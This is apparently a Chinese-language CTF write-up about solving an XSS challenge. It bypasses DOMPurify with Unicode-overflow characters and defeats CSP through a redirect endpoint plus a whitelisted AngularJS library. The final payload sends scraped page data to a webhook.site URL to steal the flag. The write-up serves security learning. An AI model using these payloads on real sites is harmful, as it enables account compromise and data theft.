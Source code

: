 # 从一道XSS题学习CSP绕过

  
  
&lt;!--more--&gt;  
## 0x00 解题记录  
`/create`可以创建笔记存入到数据库，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102148138.png)
`/note`可以展示笔记  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102149796.png)
但在`/create`处存在`DOMPurify`来过滤`xss`，由于是最新版无法绕过，  
需要注意到在`/note`笔记展示的地方，是利用了`ascii`来处理了字符串，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102151665.png)
这里会涉及到一个`unicode`溢出的安全问题  
举一个🌰  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102158214.png)
利用这个原理，选两个`unicode`字符来逃逸`&lt;&gt;`  
`氼`、`夾`  
来试一下，正常的解析了`&lt;&gt;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102203883.png)
构造一个payload  
```javascript  
氼script src=&#34;https://www.example.com&#34;夾alert(1);//氼/script 夾  
```  
正常触发了CSP  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102208902.png)
现在就需要绕过CSP了，利用`/redirect`接口绕过CSP即可  
```javascript  
  res.setHeader(  
    &#34;Content-Security-Policy&#34;,  
    `script-src &#39;self&#39; &#39;nonce-${nonce}&#39; &#39;unsafe-eval&#39; https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js; base-uri &#39;none&#39;; object-src &#39;none&#39;;`  
  );  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102220072.png)
还需要利用到`angular`组件，原因如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102348192.png)
在重定向只会忽略路径部分，而不会忽略URL，而CSP中又恰巧信任了`https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js`  
```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt; {{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };alert(1);//&#39;);}} &lt;/div&gt;  
```  
（这里在本地搭建了一个作为测试）  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102359533.png)
根据`bot.ts`来盗取`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110001119.png)
payload  
{% raw %}  
```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt;{{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };  
    fetch(`http://localhost:3000/`).then(res=&gt;res.text()).then(data=&gt;{ const parser = new DOMParser();  
    const doc = parser.parseFromString(data, &#34;text/html&#34;);  
    const links = Array.from(doc.querySelectorAll(&#34;a&#34;)).map(a =&gt; a.href);  
    const encodedLinks = btoa(unescape(encodeURIComponent(JSON.stringify(links))));  
    return fetch(&#34;https://webhook.site/5b154691-3fdb-46b8-980b-735e19b081f2?ans=&#34; &#43; encodedLinks, { method: &#34;GET&#34;, mode: &#34;no-cors&#34; })});//&#39;);}}&lt;/div&gt;  
```  
{% endraw %}  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110004738.png)
## Reference  
[https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows](https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows &#34;https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows&#34;)https://www.w3.org/TR/CSP3/#source-list-paths-and-redirects  
https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques  
https://csp-evaluator.withgoogle.com/  
https://github.com/Mehdi0x90/Web_Hacking/blob/main/CSP%20Bypass.md  
  
## 0x00000  
弟弟新建了一个交流群，欢迎有兴趣的师傅一起来讨论有趣的Web题
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502101949106.jpg)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E4%BB%8E%E4%B8%80%E9%81%93xss%E9%A2%98%E5%AD%A6%E4%B9%A0csp%E7%BB%95%E8%BF%87/  

